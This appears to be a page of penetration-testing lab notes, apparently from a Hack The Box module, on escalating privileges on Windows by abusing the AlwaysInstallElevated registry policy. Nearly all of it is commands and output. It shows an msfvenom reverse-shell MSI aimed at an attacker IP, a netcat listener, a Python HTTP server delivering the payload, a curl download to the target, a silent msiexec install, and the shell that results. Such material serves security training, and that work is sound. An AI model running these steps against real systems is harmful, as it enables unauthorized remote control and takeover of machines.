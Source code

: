 #### Windows Privilege Escalation - Always Install Elevated Settings Abuse

```
C:\Users\htb-student> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```
C:\Users\htb-student> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.186 LPORT=1337 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337

listening on [any] 1337 ...

[CONTINUE]
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```
C:\Users\htb-student> curl http://10.10.15.186:8000/aie.msi -o C:\Users\Public\aie.msi
```

```
C:\Users\htb-student> msiexec /i C:\Users\Public\aie.msi /quiet /qn /norestart
```

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.43.33] 49676
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
